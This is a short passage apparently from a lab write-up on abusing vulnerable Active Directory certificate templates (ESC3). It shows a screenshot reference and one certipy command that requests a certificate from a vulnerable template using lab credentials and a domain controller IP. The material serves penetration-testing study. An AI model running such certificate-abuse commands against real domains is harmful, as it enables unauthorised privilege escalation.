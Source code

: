 Here is what such a template would look like, however, it will not show as vulnerable to anything on its own.

![ESC3-2](/screenshots/2023-09-03_21-28.png?raw=true)

### Template Abuse

Abusing this template will be a repeat of what we covered for ESC2.

First, we must request a certificate based on the certificate template vulnerable to ESC3.

`certipy req -u s.jackson@certipied.local -p 'Pr3-0wn3d@#.' -ca Certipied-CA  -template Vuln-ESC3-1 -dc-ip 192.168.91.185`

![](/screenshots/2023-09-03_21-39.png?raw=true)
